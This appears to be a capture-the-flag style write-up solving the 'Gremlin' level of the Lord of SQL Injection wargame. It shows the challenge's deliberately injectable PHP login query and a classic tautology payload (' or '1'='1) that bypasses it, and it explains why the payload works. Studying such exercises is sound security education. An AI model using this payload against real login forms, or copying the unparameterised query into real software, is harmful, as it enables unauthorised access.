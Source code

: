 ```yaml
---
title: "Lord of SQL Injection: Gremlin"
pubDate: "2023-11-16"
description: "Solution for 'Gremlin'"
tags: ['SQL Injection']
---
```


# {frontmatter.title}

We have the following PHP code.

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?> 
```

The query:

```php
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```

Simply input the following parameter:

```
id=' or '1'='1&pw=' or '1'='1
```

Resulting query:

```
query : select id from prob_gremlin where id='' or '1'='1' and pw='' or '1'='1'
```

This modification allows the injection of a condition that always evaluates to true (`'1'='1'`). Consequently, the query returns valid data, granting access by bypassing the intended login mechanism.
